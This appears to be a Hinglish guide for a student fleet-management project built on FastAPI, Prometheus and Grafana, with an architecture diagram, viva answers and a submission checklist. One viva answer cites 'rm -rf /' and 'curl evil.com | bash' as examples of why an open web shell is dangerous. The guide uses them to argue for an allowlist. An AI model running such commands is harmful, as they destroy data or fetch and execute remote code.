

# Document 13: End-to-End System Architecture, Mandatory Flow Diagram & Submission Guide

**Milestone:** 5 — Final System Integration & Submission Packaging\
**Official Specification:** Project `SWFW_5S_12`: Distributed Linux Fleet Management\
**Prerequisites:** [Document 01](../foundation/01-vision-and-first-principles.md) through [Document 12](../remote-execution/12-controlled-remote-command-execution.md)\
**Associated Deliverables:** [`SWFW_5S_12_FINAL_REPORT.md`](../../SWFW_5S_12_FINAL_REPORT.md), [`package_submission.py`](../../package_submission.py)

---

## 1. The 360° Unified Fleet Architecture

Hamara Fleet Manager ab ek complete, enterprise-grade distributed system ban chuka hai jo **4 Enumerated Official Requirements** ko first principles par solve karta hai:

```
┌─────────────────────────────────────────────────────────────────────────────────────────────────┐
│                     SWFW_5S_12 DISTRIBUTED LINUX FLEET ARCHITECTURE                             │
│                                                                                                 │
│    OPERATOR / BROWSER                     CENTRAL MANAGEMENT HOST              REMOTE LINUX     │
│   ┌───────────────────┐                  ┌─────────────────────────┐             NODES (1..N)   │
│   │                   │                  │   FastAPI App (:8000)   │           ┌──────────────┐ │
│   │                   │───REST API──────▶│  • /api/nodes           │           │  sshd (:22)  │ │
│   │  Real-Time Single │◀──JSON Stream────│  • /api/actions         │           │  (Port 22)   │ │
│   │  Page Dashboard   │                  │  • /api/nodes/:id/exec  │           └──────▲───────┘ │
│   │  (Dark Theme UI)  │                  │  • /api/audit-logs      │                  │         │
│   │                   │                  └───────────┬─────────────┘                  │         │
│   └───────────────────┘                              │                                │         │
│                                           ┌──────────┴──────────┐                     │         │
│                                           ▼                     ▼                     │         │
│                                  ┌─────────────────┐   ┌─────────────────┐            │         │
│                                  │ SQLite Engine   │   │ Target Syncer   │            │         │
│                                  │ • nodes         │   │ (Atomic Swap)   │            │         │
│                                  │ • audit_log     │   │ targets.json    │            │         │
│                                  └─────────────────┘   └────────┬────────┘            │         │
│                                                                 │                     │         │
│                                                                 ▼                     │         │
│   ┌───────────────────┐                  ┌─────────────────────────────┐              │         │
│   │ Grafana Dashboard │◀──PromQL Query───│   Prometheus Server (:9090) │              │         │
│   │ (:3000) Visuals   │                  │  • file_sd_configs (10s)    │              │         │
│   └───────────────────┘                  │  • Pull Scrape (:9100)──────┼──────────────┼────────┐│
│                                          └─────────────────────────────┘              │        ││
│                                                                                       ▼        ▼│
│                                                                                ┌────────────────┐
│                                                                                │  Node Exporter │
│                                                                                │  Daemon (:9100)│
│                                                                                └────────────────┘
└─────────────────────────────────────────────────────────────────────────────────────────────────┘
```

---

## 2. The Mandatory Flow Diagram for `SWFW_5S_12`

> **[!IMPORTANT] Official Submission Mandate**\
> Zoho / SETU guidelines state that project `SWFW_5S_12` **MUST** include an end-to-end Flow Diagram directly inside the PDF report.

### Complete Lifecycle Sequence Diagram:
Neeche diya gaya Mermaid diagram dikhata hai ki ek operator ke onboard karne se lekar, auto-probing, Prometheus scrape, aur controlled remediation execution tak data kaise flow hota hai:



---

## 3. The Viva & Evaluator Defense Cheat-Sheet (First Principles)

Examiner viva me aksar tricky questions poochte hain. Yahan unke direct first-principles answers hain:

### Q1: "Metrics store karne ke liye SQLite kyun nahi use kiya? Prometheus kyun lagaya?"
* **Answer:** Telemetry data time-series hota hai. Agar 3 nodes har second 100 metrics generate karein, toh relational database me rozana **25.9 million inserts** honge! Relational database me B-Trees re-balance karne aur locking contention se database crash ho jayega. Prometheus TSDB specially designed hai — yeh **Gorilla delta-of-delta compression** use karke 16-byte sample ko sirf **1.37 bytes** me compress kar deta hai, zero lock contention ke sath.

### Q2: "Node offline ho gaya toh Prometheus me CPU 0% store hota hai ya missing data?"
* **Answer:** **Missing data (Sample gap / NaN).** Distributed systems ka fundamental rule hai: *Missing metrics are NOT zero!* Agar 0 store karte, toh PromQL ka `rate()` function galat calculate karta aur graphs me lagega ki CPU 0% idle baitha hai. Prometheus synthetic metric `up` ko `0` karta hai, par actual CPU/RAM series me clean gap chhod deta hai.

### Q3: "Grafana alert `MemFree` par lagana chahiye ya `MemAvailable` par?"
* **Answer:** **`MemAvailable` par!** Linux kernel un-used RAM ko disk caching (`Cached`) ke liye use karta hai, isliye `MemFree` aksar sirf 200–300 MB dikhta hai. Jab kisi application ko RAM chahiye hoti hai, Linux kernel page cache ko instant drop/evict kar deta hai bina system slow kiye. Asli usable RAM `MemAvailable` hoti hai, isliye alerts hamesha `MemAvailable` par hone chahiye.

### Q4: "Network failure me `ECONNREFUSED` aur `ETIMEDOUT` me kya farak hai?"
* **Answer:** 
  * `ECONNREFUSED` (Connection Refused): Remote machine ka hardware zinda hai aur IP network par accessible hai, lekin kernel ne port 22 par TCP RST packet wapas bheja kyunki wahan koi process listen nahi kar raha tha.
  * `ETIMEDOUT` (Connection Timed Out): Packets black hole me drop ho rahe hain. Ya toh remote machine powered off hai, ya network partitioned hai, ya firewall drop kar raha hai.

### Q5: "Prometheus `targets.json` likhte waqt `os.replace` (atomic swap) kyun zaroori hai?"
* **Answer:** Prometheus background me continuously `targets.json` padhta hai. Agar Python backend seedha `open('targets.json', 'w')` kare aur theek usi waqt Prometheus file read kar le, toh Prometheus ko aadha JSON milega (`unexpected end of JSON input`) aur scrape drop ho jayega. `os.replace` OS-level atomic inode swap karta hai — Prometheus ko ya toh pura puraana data milega ya pura naya data.

### Q6: "Remote command execution me open bash terminal kyun nahi diya?"
* **Answer:** Open bash terminal web UI se expose karna enterprise security me disaster hai (Remote Code Execution / Shell Injection via `rm -rf /` ya `curl evil.com | bash`). Humne **Airplane Cockpit Model** follow kiya: open keyboard ki jagah **Guarded Action Catalog (Allowlist)** diya hai jisme parameters regex-validated hote hain, 5-second hard timeout enforced hai, aur har execution SQLite `command_audit_log` me permanently audit hoti hai.

---

## 4. Submission Checklist (SETU 2026 Window: 2 Nov - 5 Nov)

Submission ke liye single ZIP archive ready karni hai:
* [x] **Codebase:** All source files (`app.py`, `node_service.py`, `db_storage.py`, `probe_engine.py`, `targets_generator.py`, `command_dispatcher.py`, `static/index.html`).
* [x] **Declarative Config:** `prometheus.yml`.
* [x] **Test Suites:** All tests passing (`test_probe.py`, `test_targets_generator.py`, `test_command_dispatcher.py`).
* [x] **Embedded PDF Report:** `SWFW_5S_12_FINAL_REPORT.pdf` containing the mandatory Flow Diagram, screenshots, architecture breakdown, and setup steps.
* [x] **Archive Name:** `<STUDENT_NAME>_SWFW_5S_12_PROJECT-FILES.zip`.
